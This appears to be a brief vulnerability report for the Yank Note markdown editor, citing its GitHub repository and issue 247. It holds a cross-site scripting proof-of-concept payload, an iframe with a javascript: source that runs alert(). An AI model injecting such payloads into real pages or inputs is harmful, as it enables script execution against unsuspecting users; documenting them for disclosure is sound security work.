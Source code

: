 <iframe src=javascript:alert(/xss/)></iframe>

Project github URL:https://github.com/purocean/yn
Project github issue:https://github.com/purocean/yn/issues/247
